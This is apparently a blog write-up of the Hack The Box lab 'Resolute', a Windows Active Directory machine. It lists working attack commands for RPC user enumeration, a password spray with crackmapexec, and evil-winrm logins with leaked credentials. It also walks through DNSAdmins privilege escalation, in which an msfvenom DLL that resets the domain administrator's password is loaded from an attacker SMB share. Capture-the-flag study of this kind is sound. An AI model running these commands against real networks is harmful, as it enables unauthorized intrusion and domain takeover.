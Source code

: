 ```yaml
---
title: "Resolute - HTB"
categories: [Windows, Medium]
tags: [Windows,Medium,RPC,PasswordSpray,DNSAdmin,AD]
mermaid: true
render_with_liquid: false
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Resolute.png
---
```


# Introdution

[https://app.hackthebox.com/machines/Resolute](https://app.hackthebox.com/machines/Resolute)

This is a medium box Windows. We starts enum users through RPC, where It was found a users list. Also It was found a password. Then It is done a Password Spray that allow to find melanie credential. Into in box, we discovered the ryan user credential. He is part of the DnsAdmins group, this group usually has elevated privilege. We explored this and get the Administrator shell.

**Have a good time!**

## Diagram

```mermaid
graph TD
    A[Enumeration] --> |rcpclient| AA(Users list and credential) -->
    B[Exploration] --> |Password Spray| BB[/Melanie/] -->
    C[Post-Exploration] --> |Enum Local| CC[/Ryan user/] --> |DnsAdmin| D
    D((Administrator))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.169 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled.png)

## **Port 445 (RPC)**

- `rpcclient -U "" -N 10.10.10.169`
    
    ```bash
    enumdomusers
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%201.png)
    
    I can get information about the users one by one with `queryuser`:
    
    ```bash
    queryuser 0x1f4
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%202.png)
    
    I can also get less information about all users with `querydispinfo`:
    
    ```bash
    querydispinfo
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%203.png)
    
    We found a password in clear: **Welcome123!**
    

# Exploration

**Password Spray**

With the clear password found (**Welcome123!**), we’ll do a Password Spray with the users found.

```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%204.png)

We can login in SMB through credential:

> User :**melanie**
> 
> Pass: **Welcome123!**


```bash
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%205.png)

**HABEMUS SHELL!!!**

# Post Exploration

## Melanie → Ryan

A hidden file was found that revelate a credential of **ryan** user.

> User: **ryan
> 
> Pass: Serv3r4Admin4cc123!**
> 

```bash
ls -force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%206.png)

`C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%207.png)

```bash
evil-winrm -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'
```

## Ryan → Administrator

### DNSAdmins

```bash
whoami /groups
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%208.png)

We verified that the ryan user is part of the DnsAdmins group, this group usually has elevated privilege. Then we’ll use the dnscmd.exe to execute commands with SYSTEM. The dnscmd will do that the target download an evil DLL into my KALI and run it as a DNS service plugin.

```bash
# Payload DLL
	msfvenom -p windows/x64/exec cmd='net user administrator Senha#123! /domain' -f dll -o perverse.dll

# Smb Server
	impacket-smbserver share . -smb2support

# In target, download it and run a DLL.
	cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.7\share\perverse.dll
	sc.exe stop dns
	sc.exe start dns

# After Administrator password changed, login it.
	impacket-psexec megabank.local/administrator@10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%209.png)

**HABEMUS ROOT!!!**